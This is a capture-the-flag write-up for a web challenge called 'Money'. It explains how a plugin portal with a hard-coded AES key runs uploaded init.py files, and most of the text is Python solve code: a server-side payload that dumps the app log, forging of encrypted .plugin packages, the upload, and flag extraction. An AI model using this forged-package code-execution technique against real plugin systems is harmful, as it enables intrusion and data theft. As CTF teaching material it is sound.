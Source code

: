 # Money

![Proof](proof.png)

**Author:** `stancium`   
**Solve:** 61

**writeup made by** `lifip27`
---

## Description

This isn't wordpress...

We get: `Server.py`
---

## Vulnerabilities

* Arbitrary Code Execution: Uploaded `init.py` is executed with `subprocess.run([...], cwd=plugin_dir)` with no sandboxing.
* Hard-coded symmetric key: `KEY = b"SECRET_KEY!123456XXXXXXXXXXXXXXX"` allows anyone to craft valid `.plugin` packages.
* Log exposure vector: Flag is printed to stdout by the official plugin and captured in `/opt/app/app.log`.
* Store gating by plugin count: Downloading from `/store` is gated by `len(registry) > 2`, which can be trivially reached by uploading benign plugins.

---

## Exploit Overview

1. Build a valid `.plugin` archive (zip), place an `init.py` that reads `/opt/app/app.log` and writes it into the plugin's own `index.html`.
2. Encrypt the zip using the known AES-CBC key (prepend a random IV), producing a `.plugin` file.
3. Upload the `.plugin` to the portal. The server will decrypt, extract, and execute `init.py`.
4. Visit `/widget/<your-uid>` — the server will serve the `index.html` you created, which contains the contents of the server log, including the flag line.
5. Parse the flag from the served page (it appears as `You cannot see this MUHAHAHAHA: <FLAG>` in the log).

---

## Solve.py

### 1. Payload that runs on the server:
```python
INIT_PY = r'''
import os, html
from pathlib import Path
plug = Path(__file__).resolve().parent
src = "/opt/app/app.log"
try:
    data = Path(src).read_text(errors="ignore")
except Exception as e:
    data = f"[read error] {e}"
html_out = "<!doctype html><meta charset='utf-8'><title>log</title><pre>" + html.escape(data) + "</pre>"
(plug / "index.html").write_text(html_out)
print("ok")
'''
```
This string becomes the init.py file inside the plugin ZIP.   
When the server executes init.py, it:
  Reads /opt/app/app.log (where the server logged the official plugin’s stdout that contains the flag).   
  Builds a minimal HTML page wrapping the log (escaped so it’s safe to view).   
  Writes that page to index.html inside the plugin directory.   
  Prints "ok" to stdout (server captures stdout in logs too).   
Result: after upload + execution, visiting /widget/<uid> will serve the index.html we just wrote (i.e., the server log).   


### 2. Build plugin ZIP (in-memory)

Create a ZIP containing the files the portal expects:
```bash
- plugin_manifest.json   # {"name": NAME, "version":"1.0", "author":"me", "icon":"thumbnail.svg"}
- thumbnail.svg          # small dashboard icon
- index.html             # placeholder (payload will overwrite this on the server)
- init.py                # the payload (INIT_PY) shown above
```

### 3. Encrypt to .plugin format

The server expects a .plugin file to be the IV (16 bytes) followed by AES-CBC(KEY, Padded(ZIP)). Steps:
```python
iv = os.urandom(16)                         # random 16-byte IV
ciphertext = AES.new(KEY, AES.MODE_CBC, iv).encrypt(pad(zip_bytes, AES.block_size))
plugin_blob = iv + ciphertext               # file contents to upload
*Because the server uses a hard-coded key (KEY) we can produce a valid .plugin.
```

### 4. Upload the plugin

POST the .plugin to /upload as multipart form data:
```python
files = {'file': ('exploit.plugin', plugin_blob, 'application/octet-stream')}
requests.post(f"{BASE}/upload", files=files)
```

On the server this triggers:
```bash
Save uploaded file.
Decrypt using KEY.
Extract the zip into a new plugins/<uid>/ directory.
Execute init.py with subprocess.run(..., cwd=plugin_dir) — our payload runs now.
```

### 5. Find your plugin UID on the dashboard

After upload the dashboard (/) shows a widget card for the plugin. Scrape it to get the UID:
```python
<a class="link" href="/widget/<uid>">LOG_RIPPER</a>
```
The UID is used to fetch /widget/<uid> which serves that plugin’s index.html.

### 6. Fetch the widget page (exfiltrate the log)

GET /widget/<uid> — the server will now serve the index.html our payload wrote, which contains the escaped contents of /opt/app/app.log.

Save it locally for inspection:
```python
page = requests.get(f"{BASE}/widget/{uid}").text
open("widget_log.html","w").write(page)
```

### 7. Check for flag

```python
def extract_flags(text):
    pats = [r"CTF\{[^}]+\}", r"UPT\{[^}]+\}", r"flag\{[^}]+\}"]
    found = []
    for p in pats:
        found += re.findall(p, text, flags=re.IGNORECASE)
    m = re.search(r"MUHAHAHAHA:\s*([A-Za-z0-9_\-\{\}]+)", text)
    if m: found.append(m.group(1))
    seen = set(); out=[]
    for f in found:
        if f not in seen:
            seen.add(f); out.append(f)
    return out

...
# in main...
flags = extract_flags(page)
    if flags:
        print("flags found:")
        for f in flags: print("   ", f)
    else:
        print("no flag")
```



### Flag:  CTF{9fb64c8a4d81f9d0e1f4108467bee58db112d0d1457fa3716cc6a46231803686}